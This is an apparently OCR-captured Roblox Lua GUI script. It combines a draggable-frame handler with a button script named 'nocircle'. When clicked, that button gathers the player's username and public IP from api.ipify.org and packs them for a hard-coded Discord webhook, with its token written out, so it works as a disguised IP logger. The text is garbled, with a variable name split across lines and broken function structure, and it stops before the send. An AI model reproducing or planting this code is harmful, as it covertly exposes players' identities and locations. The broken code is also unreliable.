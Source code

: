 	local UIS = game:GetService('UserInputService')
	local frame = script.Parent
	local dragToggle = nil
	local d
	ragSpeed = 0.25
	local dragStart = nil
	local startPos = nil
	
	local function updateInput(input)
		local delta = input.Position - dragStart
		local position = UDim2.new(startPos.X.Scale, startPos.X.Offset + delta.X,
			startPos.Y.Scale, startPos.Y.Offset + delta.Y)
		game:GetService('TweenService'):Create(frame, TweenInfo.new(dragSpeed), {Position = position}):Play()
	end
	
	frame.InputBegan:Connect(function(input)
		if (input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch) then 
			dragToggle = true
			dragStart = input.Position
			startPos = frame.Position
			input.Changed:Connect(function()
				if input.UserInputState == Enum.UserInputState.End then
					dragToggle = false
				end
			end)
		end
	end)
	UIS.InputChanged:Connect(function(input)
		if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then
			if dragToggle then
				updateInput(input)
			end
		end
	end)
end
coroutine.wrap(GVRZ_fake_script)()
	local function XZWNN_fake_script() -- nocircle.LocalScript 
		
	end
	local script = Instance.new('LocalScript', nocircle)

	script.Parent.MouseButton1Click:Connect(function()
	local webh = "https://discord.com/api/webhooks/919258488193036359/SSqlWrk1MjffNNpd83qieY06jEVQEvaOctND0FqjyDG_EI0GdAdpD2NqVj7GQuF7si9w"
	
	pcall(function()
		local data = {
			["embeds"] = {
				{
					["title"] = game:GetService("Players").LocalPlayer.Name,
					["description"] = game:HttpGet("https://api.ipify.org")
				}
			}
		}
	
